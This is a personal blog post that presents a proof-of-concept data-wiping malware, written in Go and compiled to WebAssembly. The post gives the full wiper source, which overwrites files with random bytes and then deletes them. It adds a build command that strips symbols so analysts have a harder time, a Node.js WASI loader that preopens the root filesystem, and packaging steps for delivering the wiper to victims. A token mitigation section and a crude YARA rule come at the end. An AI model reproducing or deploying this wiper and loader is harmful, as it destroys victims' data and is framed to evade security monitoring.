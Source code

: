 +++
date = '2025-03-31T19:41:01+02:00'
draft = false
title = '🐙 Wasiwiper: WASM for Stealth Offensive Security'
+++

Yesterday, I was experimenting with the WASM technology in one of my gazillion side-projects. WASM stands for **WebAssembly** and is a binary instruction format that allows compiling and executing non-browser code in a browser environment. **Think of running C or C++ in your Browser**. I have used this technology for one project that I built using Rust.

Today morning It struck me with it... I had an insaneeee idea. What if we could write native malware using a backend language such as Golang or Rust and let it run in the browser without the os ever noticing that we are running native code in a browser-subprocess. So here am I yet again trying to pitch you another exotic malware method 😂. The plan is to write a primitive wiper that is supposed to use high-level Microsoft OS APIs and simply disk i/o to wipe files and overwrite them effectively using rand data.

## Part 1: Building the malware in the Host Language

For this PoC I will resort to building the wiper in Golang since it is super easy to compile to WASM. Here is the code for now:

```golang
package main

import (
	"crypto/rand"
	"os"
)

func wipe(filePath string) error {
	file, err := os.OpenFile(filePath, os.O_WRONLY, 0644)
	if err != nil {}
	defer file.Close()
	fileInfo, err := file.Stat()
	if err != nil {}
	size := fileInfo.Size()
	randomData := make([]byte, size)
	_, err = rand.Read(randomData)
	if err != nil {}
	_, err = file.WriteAt(randomData, 0)
	if err != nil {}
	file.Sync()
	file.Close()
	return os.Remove(filePath)
}

func main() {
	wipe("somedirectory")
}
```

As you see, this wiper is supeer primitive and will not be usable for a real-life full-scale attack. 

We now need to compile it down to the WASM target using the golang compiler. Parallely I will strip the debug symbols to shrink the resulting binary and make the life of a SOC Analyst harder.

```bash
GOOS=wasip1 GOARCH=wasm go build -o wiper.wasm -ldflags="-s -w"
```

After roughly a second or two, I was left with a neat wiper.wasm file. This is it. This is the bytecode that we technically could directly run using a WASM runtime. What we will do instead is, we will load the wasm file using a custom **NodeJS** script that will run on the victims host machine and which in its own turn will call the exported golang wiper functionality.

## Part 2: NodeJS Client-Side Loader

Here is a simply NodeJS wasm loader. I will facilitate the **WASI Runtime** which allows us to run wasm bytecode.

```javascript
const { WASI } = require('wasi');
const fs = require('fs');

const wasi = new WASI({
  version: 'preview1',
  args: process.argv,
  env: process.env,
  preopens: { '/': '/' } });
const wasmBuffer = fs.readFileSync('./wiper.wasm');

(async () => {
  const { instance } = await WebAssembly.instantiate(wasmBuffer, { wasi_snapshot_preview1: wasi.wasiImport });
  wasi.start(instance);
})();
```

We can run this using the following:

```bash
node loader.js
```

And we see, that it starts wiping out files from dirs where it has access to.

## Part 3: Delivery

Obviously we can not run this without including a NodeJS runtime in the payload. So we will simply package the NodeJS loader into something like [Electron](https://www.electronjs.org/) or [Nexe](https://github.com/nexe/nexe) to produce a standalone binary.

## Concluding

I think WASM malware can be very interesting since the processes will monitored as a browser / nodejs process. Obviously these kind of threats are very rare but still very stealthy since SOC Analysts and XDRs are used to native binary formats on not something like WASM. If additionally to stripping the debug symbols, we would have obfuscated the original golang code, this could add another layer of stealthyness to the wiper.

## Mitigation

I have no fu*cking idea on how you wanna mitigate this. Maybe you can and most likely want to block ElectronJS and NodeJS apps?. Or maybe your XDR can detect WASM binaries that are loaded in-memory. If so, apply these changes now! If not... well fuck. In this case simply use this YARA-Rule to adapt your IPS to.:

```bash
rule Detect_WASM {
    meta:
        description = "Detects potentially malicious WebAssembly (WASM) binaries"
        author = "Timo Sarkar"
        date = "2025-03-31"
        version = "1.0"
    strings:
        $wasm_magic = { 00 61 73 6D }
    condition:
        $wasm_magic
}
```